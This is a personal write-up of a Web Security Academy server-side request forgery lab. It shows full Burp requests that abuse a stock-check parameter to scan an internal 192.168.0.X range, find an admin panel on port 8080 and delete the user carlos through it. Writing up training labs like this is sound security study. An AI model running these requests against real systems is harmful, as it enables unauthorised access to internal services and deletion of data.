*This lab has a stock check feature which fetches data from an internal system. To solve the lab, use the stock check functionality to scan the internal 192.168.0.X range for an admin interface on port 8080, then use it to delete the user carlos.*

Greeted with the same page with the products. Clicked on a product, which had the *check stock* feature, same as the previous lab. 

Captured the intercept when clicking the *check stock* feature, with the following output from Burp: 

```Burp 
POST /product/stock HTTP/2
Host: 0a00005603d99bce81a7c299003e005a.web-security-academy.net
Cookie: session=ZEgCcvqxPOaQgyY2mr78sD5NaLmjqtw1
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a00005603d99bce81a7c299003e005a.web-security-academy.net/product?productId=1
Content-Type: application/x-www-form-urlencoded
Content-Length: 96
Origin: https://0a00005603d99bce81a7c299003e005a.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers

stockApi=http%3A%2F%2F192.168.0.1%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D1%26storeId%3D1
```
 Sent this to Burp Intruder, where I modified the `stockApi` as such below : 
```Burp 
POST /product/stock HTTP/2
Host: 0a00005603d99bce81a7c299003e005a.web-security-academy.net
Cookie: session=ZEgCcvqxPOaQgyY2mr78sD5NaLmjqtw1
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a00005603d99bce81a7c299003e005a.web-security-academy.net/product?productId=1
Content-Type: application/x-www-form-urlencoded
Content-Length: 96
Origin: https://0a00005603d99bce81a7c299003e005a.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers

stockApi=http://192.168.0.§0§:8080/admin
```

The payload I used was a list of numbers from 1 to 256. I then commenced the Sniper attack. 

Sorting the output by status code, I noticed that only 1 payload returned a 200 OK status code, as seen below: 

![[Screenshot 2024-04-30 at 6.29.57 PM.png]]

This was for `192.168.0.145`. Sending this to the Repeater, I managed to obtain the following response: 

```Burp 
<div>
	<span>carlos - </span>
	<a href="/http://192.168.0.145:8080/admin/delete?username=carlos">Delete</a>
</div>
```

I then modified the request in the Repeater to the following: 
```Burp 
POST /product/stock HTTP/2
Host: 0a00005603d99bce81a7c299003e005a.web-security-academy.net
Cookie: session=ZEgCcvqxPOaQgyY2mr78sD5NaLmjqtw1
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a00005603d99bce81a7c299003e005a.web-security-academy.net/product?productId=1
Content-Type: application/x-www-form-urlencoded
Content-Length: 40
Origin: https://0a00005603d99bce81a7c299003e005a.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers

stockApi=http://192.168.0.145:8080/admin/delete?username=carlos
```

The following success message was displayed! 
```Burp 
HTTP/2 302 Found
Location: http://192.168.0.145:8080/admin
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```
